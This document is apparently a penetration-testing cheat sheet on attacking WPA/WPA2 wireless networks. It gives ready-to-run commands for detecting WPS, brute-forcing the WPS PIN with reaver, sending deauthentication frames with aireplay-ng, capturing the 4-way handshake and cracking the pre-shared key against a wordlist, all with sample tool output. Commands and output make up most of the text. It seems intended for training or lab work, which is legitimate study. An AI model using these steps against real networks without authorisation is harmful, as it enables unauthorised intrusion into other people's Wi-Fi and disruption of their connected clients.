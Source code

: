 
## WPA/WPA2
___
**Main attack methods:**

1. Check if WPS is enabled and brute-force the PIN.
2. Capture the 4-way handshake and perform a dictionary attack to recover the PSK.
3. Execute a PMKID attack on vulnerable access points.


### WPS Brute force
___
**Check if wps is enabled**:

with airodump:
```bash
airodump-ng wlan0mon -c 1 --wps
```

with wash:
```bash
wash -i wlan0mon
```
if Lck = No, WPS is enabled.

Also, determine the vendor with the first three sets from the MAC
```bash
grep -i "28-B2-BD" /var/lib/ieee-data/oui.txt
```

**Bruteforce WPS key with reaver**

turn off monitor mode from airmon to ensure Reaver works.
```bash
airmon-ng stop wlan0mon
```

use the iw command to add a new interface named mon0 and set its type to monitor mode.

```bash
iw dev wlan0 interface add mon0 type monitor
ifconfig mon0 up
```

**Launch Reaver**
specifying the BSSID of our target, the appropriate channel, and our interface in monitor mode (mon0)

```bash
reaver -i mon0 -c 1 -b 28:B2:BD:F4:FF:F1
```


## Cracking MIC (4-Way Handshake)
---
Capture the MIC

```bash
sudo airmon-ng start wlan0
```

Identify networks (save to file WPA)

```bash
airodump-ng wlan0mon -c 1 -w WPA
```

Deauth clients and capture handshake on reconnect

```bash
aireplay-ng -0 5 -a <AP BSSID> -c <STATION> wlan0mon
```

After a few seconds a WPA handshake should be captured in the airodump output.
```plaintext
 CH  1 ][ Elapsed: 48 s ][ 2024-08-29 21:58 ][ WPA handshake: 80:2D:BF:FE:13:83 
```

We need to ensure we've captured the complete handshake before attempting to crack

With cowpatty:
`-c` = check mode
```
cowpatty -c -r WPA-01.cap
```

or with wireshark:

check the following:

- All four EAPOL messages exist per each handshake in sequential order
- Key nonce values are the same in message 1 and 3
- For message four, we should see no key nonce value and only a MIC value.

**Crack the handshake**

with cowpatty:
```bash
cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s <SSID>
```

or with aircrack

```bash
aircrack-ng -w /opt/wordlist.txt -0 WPA-01.cap 
```




### Deauth attacks

**List attack modes**

```bash
aireplay-ng

 Attack modes (numbers can still be used):
      --deauth      count : deauthenticate 1 or all stations (-0)
      --fakeauth    delay : fake authentication with AP (-1)
      --interactive       : interactive frame selection (-2)
      --arpreplay         : standard ARP-request replay (-3)
      --chopchop          : decrypt/chopchop WEP packet (-4)
      --fragment          : generates valid keystream   (-5)
      --caffe-latte       : query a client for new IVs  (-6)
      --cfrag             : fragments against a client  (-7)
      --migmode           : attacks WPA migration mode  (-8)
      --test              : tests injection and quality (-9)

      --help              : Displays this usage screen
```

| **Attack** | **Attack Name**                      |
| ---------- | ------------------------------------ |
| `Attack 0` | Deauthentication                     |
| `Attack 1` | Fake authentication                  |
| `Attack 2` | Interactive packet replay            |
| `Attack 3` | ARP request replay attack            |
| `Attack 4` | KoreK chopchop attack                |
| `Attack 5` | Fragmentation attack                 |
| `Attack 6` | Cafe-latte attack                    |
| `Attack 7` | Client-oriented fragmentation attack |
| `Attack 8` | WPA Migration Mode                   |
| `Attack 9` | Injection test                       |

Before sending deauthentication frames, it's important to verify if our wireless card can successfully inject frames into the target access point (AP).

1. Enable monitor mode on channel

```bash
airmon-ng start wlan0 1
```

2. test for packet injection

```bash
sudo aireplay-ng --test wlan0mon
```
(we should see `Injection is working!`)


**Now we know we can inject packets with our interface, lets perform the deauth**

Identify the AP
```bash
sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY                         
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony                             

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14           HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5           HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           jhony
```

From the above output, we can see that there are three available WiFi networks, and `two clients` are connected to the network named `HTB`. Let's send a deauthentication request to one of the clients with the station ID `00:0F:B5:32:31:31`.

```bash
sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlan0mon
```
- `-0` means deauthentication
- `5` is the number of deauths to send (you can send multiple if you wish); `0` means send them continuously
- `-a 00:14:6C:7A:41:81` is the MAC address of the access point
- `-c 00:0F:B5:32:31:31` is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- `wlan0mon` is the interface name

Once the clients are deauthenticated from the AP, we can continue observing `airodump-ng` to see when they reconnect.

```bash
sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: 00:14:6C:7A:41:81
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY                         
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony                             

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24   212     145   EAPOL  HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0      0       4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36     0       5          HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54     0       9          jhony

```


In the output above, we can see that after sending the deauthentication packet, the client disconnects and then reconnects. This is evidenced by the increase in `Lost` packets and `Frames` count.

Additionally, a `four-way handshake` would be captured by `airodump-ng`, as shown in the output. By using the `-w` option in airodump-ng, we can save the captured WPA handshake into a `.pcap` file. This file can then be used with tools like `aircrack-ng` to crack the pre-shared key (PSK)


